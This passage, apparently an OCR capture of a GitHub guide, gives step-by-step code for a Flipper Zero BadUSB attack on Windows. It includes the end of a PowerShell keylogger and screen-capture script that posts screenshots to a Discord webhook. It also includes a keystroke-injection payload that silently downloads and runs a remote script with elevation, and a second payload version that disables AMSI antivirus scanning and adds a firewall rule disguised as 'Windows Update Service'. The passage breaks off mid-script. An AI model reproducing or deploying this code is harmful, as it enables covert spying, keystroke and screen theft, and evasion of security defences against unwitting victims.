 ```powershell
        }

        private static void SendToDiscord(string base64Image) {
            string jsonPayload = "{\"content\":\"Screenshot\",\"embeds\":[{\"image\":{\"url\":\"data:image/jpeg;base64," + base64Image + "\"}}]}";
            using (WebClient client = new WebClient()) {
                client.Headers.Add("Content-Type", "application/json");
                client.UploadString(webhookUrl, "POST", jsonPayload);
            }
        }
    }
"@
    Add-Type -TypeDefinition $screenShareScript
    [ScreenShare]::Main()
}

# Start Keylogger and Screen Sharing
Start-Keylogger
Start-ScreenShare
```

---

### **Step 3: Creating the Flipper Zero Payload**

The Flipper Zero will simulate keystrokes to download and execute the PowerShell script. Here’s the BadUSB script:

```
DELAY 1000
GUI r
DELAY 500
STRING powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri 'https://your-server.com/payload.ps1' -OutFile '$env:temp\payload.ps1'; Start-Process powershell -ArgumentList '-ExecutionPolicy Bypass -File $env:temp\payload.ps1' -Verb RunAs"
DELAY 1000
ENTER
```

---

### **Step 2: (2nd version)Modified PowerShell Script**

Save this as `payload.ps1`.

```

# Stage 1: Initialization and Elevation
If (-NOT ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    Start-Process powershell.exe "-ExecutionPolicy Bypass -File `"$env:temp\payload.ps1`"" -Verb RunAs
    Exit
}

# Stage 2: Environment Preparation
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

$webhookUrl = "YOUROWNDISCORDWEBHOOKURL"

# Stage 3: System Modifications
New-NetFirewallRule -DisplayName "Windows Update Service" -Direction Outbound -Action Allow -Program "powershell.exe" -ErrorAction SilentlyContinue

```